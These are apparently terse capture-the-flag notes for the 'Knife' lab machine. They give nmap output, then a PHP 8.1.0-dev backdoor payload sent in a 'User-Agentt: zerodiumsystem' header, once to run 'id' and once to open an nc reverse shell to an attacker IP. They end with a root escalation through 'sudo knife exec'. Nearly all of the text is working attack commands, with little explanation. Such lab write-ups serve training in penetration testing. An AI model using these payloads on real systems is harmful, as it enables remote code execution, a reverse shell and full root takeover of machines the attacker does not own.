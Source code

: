 # Knife

10.129.205.203

## nmap

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## http 80

X-Powered-By
	PHP/8.1.0-dev

User-Agentt: zerodiumsystem('id');
User-Agentt: zerodiumsystem('rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.172 1234 >/tmp/f');

## root

$ sudo -l
    (root) NOPASSWD: /usr/bin/knife

GTFOBins: sudo knife exec -E 'exec "/bin/bash"'
